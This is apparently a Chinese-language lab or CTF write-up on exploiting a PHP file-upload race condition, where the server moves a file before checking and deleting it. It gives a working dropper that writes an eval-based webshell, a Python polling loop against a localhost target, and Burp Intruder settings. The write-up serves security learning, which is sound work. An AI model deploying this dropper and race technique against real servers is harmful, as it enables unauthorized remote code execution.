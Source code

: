 ```php
```

可以看到后端对我们上传的文件进行了重命名，用两位随机数与时间戳进行拼接，正是这一段代码引出了后面有关python脚本的学习， 虽然这题本身并没有那么复杂，但还是要感谢开拓了我的思维的学长。

条件竞争部分：

```php
if(move_uploaded_file($temp_file, $upload_file)){
    if(...){
        ...
    }
    else{
        unlink($upload_file)
    }
}
```

这段代码的执行逻辑为：先移动，后检测，不符合再删除

因此这里给了我们利用条件竞争的机会

### 利用方法

分三个部分：

1. 首先是我们上传的恶意代码，倘若直接上传webshell，由于利用时间太短，不可能给我们getshell的机会，因此可以写一个用于创建webshell的文件，这样只要我们成功访问该脚本，就可以在服务器上留下另一个webshell

2. 其次是用python脚本不断访问这个恶意脚本，直至条件竞争利用成功

3. 最后用burp持续上传脚本文件，总有一次会在服务端检测到恶意文件至删除文件这个时间段内被python脚本访问到的

### 具体实现

恶意文件`backdoor.php`内容如下：

```php
<?php fputs(fopen('shell.php', 'w'), '<?php @eval($_POST["cmd"])?>');
```

python脚本：

```python
import requests

url = "http://localhost:8081/upload/backdoor.php"
while True:
    r = requests.get(url)
    if r.status_code == 200:
        print("Upload success!")
        break
    else:
        print("Retrying.")
```

burp设置：

抓包后发送到Intruder，将`Payload type`设置为`Null payloads`，用于发送原本的包，并设置发送次数
